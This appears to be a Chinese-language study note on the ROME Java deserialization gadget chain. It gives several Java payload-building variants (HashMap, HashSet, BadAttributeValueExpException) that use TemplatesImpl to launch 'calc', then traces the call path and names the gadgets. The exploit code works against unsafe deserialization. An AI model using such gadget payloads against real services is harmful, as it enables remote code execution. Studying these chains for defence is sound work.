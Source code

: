 # ROME

## 手写

```java
public Object getObject ( String command ) throws Exception {
        Object o = Gadgets.createTemplatesImpl("calc");
        ObjectBean delegate = new ObjectBean(Templates.class, o);
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        Reflections.setFieldValue(delegate,"_equalsBean",equalsBean);
        return Gadgets.makeMap(delegate, delegate);
    }
```

假如我们使用`BadAttributeValueExpException`来触发是不是也可以

```java
public Object getObject(String command) throws Exception {
        Object o = Gadgets.createTemplatesImpl("calc");
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        BadAttributeValueExpException expException = new BadAttributeValueExpException("dem0");
        Reflections.setFieldValue(expException,"val",equalsBean);
        return expException;
    }
```

简化一下

```java
Object o = Gadgets.createTemplatesImpl("calc");
ToStringBean toStringBean = new ToStringBean(Templates.class, o);
EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
HashMap o1 = Gadgets.makeMap(equalsBean, "o");
```

有一个想法 如果没有hashmap 这里还能触发吗？使用hashset。 本质上是一样的，没有区别

```java
        Object o = Gadgets.createTemplatesImpl("calc");
        ToStringBean toStringBean = new ToStringBean(Templates.class, o);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class, toStringBean);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, equalsBean);
        byte[] ser = Serializer.serialize(map);
        Deserializer.deserialize(ser);
```



## 分析

![image-20220513082004576](https://img.dem0dem0.top/images/image-20220513082004576.png)

hashmap#readobject == > ObjectBean#hashcode

![image-20220513082041477](https://img.dem0dem0.top/images/image-20220513082041477.png) 

EqualsBead#beanHashCode`这个中间需要包裹一下ObjectBean(主要是把_equalsBean#_obj变成toString )`可以发射实现 == > ToStringBean#toString

![image-20220513082114248](https://img.dem0dem0.top/images/image-20220513082114248.png)

![image-20220513082211859](https://img.dem0dem0.top/images/image-20220513082211859.png)

ToStringBean#toString ==> ToString#toString(prefix)

![image-20220513082335074](https://img.dem0dem0.top/images/image-20220513082335074.png)

调用getter方法

```
 TemplatesImpl.getOutputProperties()
 NativeMethodAccessorImpl.invoke0(Method, Object, Object[])
 NativeMethodAccessorImpl.invoke(Object, Object[])
 DelegatingMethodAccessorImpl.invoke(Object, Object[])
```

当然这里如果可以直接触发toString的话，可以减少其中的步骤(`BadAttributeValueExpException`之后又一个可以触发toString触发的起点)。

## 拓展

但是我们发现`equalBean的equals`方法其实也是可以触发的。

![image-20220513084226030](https://img.dem0dem0.top/images/image-20220513084226030.png)

## 总结

- kick-off gadget：`java.util.HashMap#readObject()`
- sink gadget：`com.sun.syndication.feed.impl.ToStringBean#toString()`
- chain gadget：`com.sun.syndication.feed.impl.ObjectBean#toString()`